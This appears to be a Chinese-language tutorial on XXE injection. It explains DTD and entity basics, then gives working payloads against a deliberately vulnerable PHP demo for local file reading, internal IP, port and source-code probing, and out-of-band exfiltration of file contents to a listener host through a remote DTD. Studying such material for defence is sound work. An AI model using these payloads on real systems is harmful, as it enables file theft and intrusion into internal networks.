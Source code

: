 ```yaml
---
title: XXE漏洞利用
description: 演示XXE漏洞利用方法，包括读取文件、内网探测，其中包括一些小技巧：读取含有特殊字符文件的方法、无回显情况下通过外带数据读取的方法。
categories:
 - web vul
tags:
 - XXE
---
```


## 概述

> XXE（外部实体注入）是XML注入的一种，普通的XML注入利用面比较狭窄，如果有的话也是逻辑类漏洞。XXE扩大了攻击面，当允许引用**外部实体**时，就可能导致**任意文件读取、系统命令执行、内网端口探测、攻击内网**等危害。   
防御方法：禁用外部实体（PHP：可以将`libxml_disable_entity_loader`设置为`TRUE`来禁用外部实体）

## XML基础知识

### XML 基本结构

> 一个完整的XML主要包括以下三部分：`XML声明`、`DTD`（文档说明）、`XML部分`

DTD 的作用：
1. 定义元素 `ELEMENT`（其实就是对应 XML 中的标签）；
2. 定义实体 `ENTITY` (对应XML 标签中的内容)

![pic](/assets/xxe/1.png)

假如 DTD 位于 XML 源文件的外部，那么可以通过引用【外部文档说明】的方式，效果同上：

![pic](/assets/xxe/2.png)

### 两种外部文档说明（DTD）

* 当引用的DTD文件是本地文件的时候，用SYSTEM标识，并写上DTD的文件路径   
```xml
<!DOCTYPE 根元素 SYSTEM "DTD文件路径">`
```

* 如果引用的DTD文件是一个公共文件时，采用PUBLIC标识   
```xml
<!DOCTYPE 根元素 PUBLIC "DTD名称" "DTD文件的URL">`
```

### 四种实体声明（ENTITY）

实体声明（ENTITY）的作用：DTD实体是用于定义引用普通文本或特殊字符的快捷方式的变量，可以内部声明或外部引用。

* 内部实体声明  
`<!ENTITY 实体名称 "实体的值">`

```xml
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe "Thinking">]>

<foo>&xxe;</foo>
```

* 外部实体声明  
`<!ENTITY 实体名称 SYSTEM "URI/URL">`

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE copyright [
<!ENTITY test SYSTEM "http://www.runoob.com/entities.dtd">]>
<reset>
  <login>&test;</login>
  <secret>login</secret>
</reset>
```

上述两种均为**引用实体**，主要在XML文档中被应用，引用方式：**&实体名称;**末尾要带上分号，这个引用将直接转变成实体内容。

* 参数实体声明

```sh
<!ENTITY % 实体名称 "实体的值"> 
<!ENTITY % 实体名称 SYSTEM "URI/URL"> 
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE copyright [
<!ENTITY % body SYSTEM "http://www.runoob.com/entities.dtd" >
<!ENTITY xxe "%body;">
]>
<reset>
  <secret>login</secret>
</reset>
```

> 参数实体，被DTD文件自身使用 ，引用方式为：**%实体名称**。和通用实体一样，参数实体也可以外部引用。  
允许包含**外部实体**，就可能存在XXE攻击。  
外部引用可支持**http，file**等协议，不同的语言支持的协议不同，但存在一些通用的协议，具体内容如下

![pic](/assets/xxe/3.png)

* 公共实体声明

```sh
<!ENTITY 实体名称 PUBLIC "public_ID" "URI">
```

## XXE漏洞

### 实验1（有回显）

测试demo：

```php
<?php
    libxml_disable_entity_loader (false);
    //若为true，则表示禁用外部实体
    $xmlfile = file_get_contents('php://input');
    //可以获取POST来的数据
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

#### 利用1 读取本地文件

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///c:/windows/system.ini"> ]>
<creds>&goodies;</creds>
```

![pic](/assets/xxe/4.png)

#### 利用2 读取含有特殊字符的本地文件

> 如果文件中含有特殊字符，如 `&,<,>,",'` 等，通过上述方法会报错，需要借助CDATA，CDATA节中的所有字符都会被当做元素字符数据的常量部分，而不是 xml标记。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///C:/phpStudy/WWW/zhan/XXE-K/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://192.168.220.143:8888/zhan/XXE-K/evil.dtd">
%dtd; ]>
 
<roottag>&all;</roottag>
```

其中，`http://192.168.220.143:8888/zhan/XXE-K/evil.dtd` ：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY all "%start;%goodies;%end;">
```

![pic](/assets/xxe/5.png)

#### 利用3 内网ip探测

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.220.144"> ]>
<creds>&goodies;</creds>
```

根据响应的时间的长短判断ip是否存在，可以通过burp重放遍历端口。

#### 利用4 内网端口探测

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.220.144:22"> ]>
<creds>&goodies;</creds>
```

根据响应的时间的长短判断端口是否开放，可以通过burp重放遍历端口；如果有报错，可以直接探测出banner信息。

![pic](/assets/xxe/6.png)

#### 利用5 内网源码探测

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "php://filter/convert.base64-encode/resource=http://192.168.220.144/bWAPP/login.php"> ]>
<creds>&goodies;</creds>
```

审计源码，进一步发现内网系统漏洞（如sql注入,struts2命令执行），则可通过blind XXE进行注入  
其他：通过jar协议上传文件；通过ftp协议结合 CRLF 注入攻击SMTP服务器


### 实验2 （无回显）

测试demo：

```php
<?php
    libxml_disable_entity_loader (false);
    //若为true，则表示禁用外部实体
    $xmlfile = file_get_contents('php://input');
    //可以获取POST来的数据
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
?>
```

#### 外带数据读取文件

```xml
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://192.168.220.143:8888/zhan/XXE-K/evil2.dtd">
%remote;%int;%send;
]>
```

`http://192.168.220.143:8888/zhan/XXE-K/evil2.dtd` :

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///c:/windows/system.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.220.144:9999?p=%file;'>">
```

![pic](/assets/xxe/7.png)

## 参考链接

[一篇文章带你深入理解漏洞之XXE漏洞](https://xz.aliyun.com/t/3357)  
[歪？我想要一个XXE](https://mp.weixin.qq.com/s?__biz=MzU1ODg3NTMyMQ==&mid=2247489349&idx=1&sn=ab435be65bc6c35a21ea4bd040693d8c&source=41#wechat_redirect)